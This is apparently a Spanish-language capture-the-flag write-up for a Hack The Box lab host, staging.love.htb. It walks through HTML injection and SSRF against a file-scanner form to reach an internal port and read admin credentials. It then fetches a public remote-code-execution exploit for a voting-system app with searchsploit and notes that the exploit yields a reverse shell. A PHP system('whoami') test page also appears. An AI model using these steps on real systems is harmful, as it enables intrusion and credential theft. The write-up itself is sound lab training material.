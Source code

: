 ## Evaluacion de vulnerabilidades {-}

### Analizamos la web staging.love.htb {-}

Aqui llegamos en una pagina **Free File Scanner**. si pinchamos el menu Demo vemos un input que nos pregunta por un file url.

Vamos a ver lo que pasa si le damos una url de nuestro equipo de atacante

### Injeccion HTML y SSRF {-}

```bash
vi index.html

<h1>Hola</h1>
<marquee>Se tenso</marquee>
```

Creamos un servicio http con python

```bash
python3 -m http.server 80
```

En la web ponemos la url de nuestro equipo `http://10.10.14.8/` y vemos que la web es vulnerable a una **Injeccion HTML**.
Intentamos con una pagina php

```bash
vi index.php

<?php
    system("whoami");
?>
```

Si ahora en la web le ponemos `http://10.10.14.8/index.php` no pasa nada quiere decir que esta en un contexto sanitizado.
Bueno aqui pensamos en un **SSRF** y intentamos cosas como `http://localhost/`. Esto nos muestra el panel de session que ya hemos analizado,
y probamos a ver si los puertos que tenian el mensaje **Forbidden** se pueden ahora burlar. 

Intentamos el puerto 5000, `http://localhost:5000/` y effectivamente se puede ver la pagina. A demas vemos aqui las credenciales del usuario **admin**.

Nos conectamos ahora con el usuario admin en el panel de administracion y pa dentro.

### Voting System vunlerability {-}

Aqui como una vez mas vemos el voting system, mirramos si un exploit existe para este gestor de contenido

```bash
searchsploit voting system
```

Encontramos un que permitte hacer Ejecucion Remota de comandos una vez autenticados. Como no tenemos claro que version del voting system es,
intentamos utilizar el script

```bash
cd exploits
searchsploit -m php/webapps/49445.py
mv 49445.py voting-system.py
vi voting-system.py
```

Aqui vemos que el exploit nos da directamente une reverse shell.


